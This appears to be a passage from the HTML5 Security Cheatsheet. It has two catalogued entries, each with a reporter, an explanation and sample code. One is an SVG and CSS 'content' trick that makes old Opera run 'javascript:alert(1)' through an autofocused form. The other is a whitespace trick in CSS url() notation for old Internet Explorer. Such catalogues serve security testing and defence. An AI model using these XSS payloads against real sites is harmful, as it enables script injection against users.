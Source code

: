*   [`en.wikipedia.org/wiki/Halfwidth_and_Fullwidth_Forms_Unicode_block`](http://en.wikipedia.org/wiki/Halfwidth_and_Fullwidth_Forms_Unicode_block)

reporter：.mario

### SVG images containing XML data - with disabled JavaScript#90test

Opera supports the CSS property "content" for style attributes. The SVG image can contain SVG as well as HTML code. The example for Opera 10.x shows how a <FORM> tag can be used to trick the user into clicking a button and thus executing JavaScript. Example for Opera 12.x shows one of the problems (along with a client side DoS, running the "onblur" event, etc), which is generated because of the possibility to steal a focus via embeded SVG image. The same works of course for SVG files embedded via <IMG> tags.

```
<!-- Up to Opera 10.63 --> <div style=content:url(test2.svg)></div> <!-- Up to Opera 11.64 - see link below --> <!-- Up to Opera 12.x --> <div style="background:url(test5.svg)">PRESS ENTER</div>``<form  target="_top" action="javascript:alert(1)"> <!-- this file can be crossdomain if "action" attribute refers to an external file --> <meta http-equiv="refresh" content="1;URL=test5.svg"/> <input type="submit" autofocus="autofocus"/> </form>required_mime: image/svg+xmlcrossdomain: 0path: [`html5sec.org/test5.svg`](http://html5sec.org/test5.svg)name: test5.svg 
```

*   opera 10.x
*   opera 12.0

*   xss

*   svg
*   css
*   opera
*   content
*   form

*   [`heideri.ch/opera/`](http://heideri.ch/opera/)

reporter：LeverOne

### Breaking the functional notation on IE (1)#92test

To break the functional notation on IE "url()" can be used combined with a following whitespace - then followed by any non-whitespace character. The following characters *are whitespaces: IE 6,7 standards mode: 9-13,32,160,8192-8203,12288,65279 IE 8 standards mode: 1-32,127* These are given in decimal codes.

```
<div style="background:url(http://foo.f/f oo/;color:red/*/foo.jpg);">X</div> 
```

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss

*   css
*   internet explorer
*   trick
*   notation

*   #111

*   #112
*   #114
